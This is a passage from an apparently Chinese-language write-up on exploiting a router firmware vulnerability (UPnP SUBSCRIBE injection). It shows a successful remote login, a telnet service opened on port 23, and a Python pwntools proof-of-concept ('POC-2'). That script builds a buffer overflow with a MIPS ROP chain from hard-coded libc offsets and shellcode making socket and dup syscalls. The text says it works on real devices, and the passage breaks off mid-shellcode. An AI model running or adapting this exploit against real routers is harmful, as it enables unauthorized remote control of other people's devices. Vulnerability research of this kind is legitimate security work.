 成功地远程登陆到了路由固件中：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4pGicG8dEfvlGBm3aMdpRTzuXjUDMZIyxgtH0Djj416CoUHtoJBPdXfA/640?wx_fmt=png)

检测到 23 号端口的 telnet 服务已被开启：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4kyql5iaiajESZtMicRL7bhByJgNL0voRj3UEhTooiaWDia5tqt6X0AicgC6w/640?wx_fmt=png)

**POC-2：**

这个脚本在 firmadyne 模拟的环境中是打不通的，原因未知，可能是 shellcode 过长，到了一些不可执行区，但是在真机环境是可以打通的。

这里用的是 SUBSCRIBE 的请求方式，对 service 进行了注入。

```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
payload = b'a'*449
payload += b'a'*4 # s0
payload += p32(libc_base + 0x3E874) # s1  move $t9, $s2 (=> lw... => jr $t9)
payload += p32(libc_base + 0x56BD0) # s2  sleep
payload += b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*4 # s0
payload += p32(libc_base + 0x37E6C) # s1  move  $t9, $a1 (=> jr $t9)
payload += b'a'*4 # s2
payload += p32(libc_base + 0xB814) # ra  addiu $a1, $sp, 0x18 (=> jalr $s1)
 
shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424
 
    slti $a0, $zero, 0x1111
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
```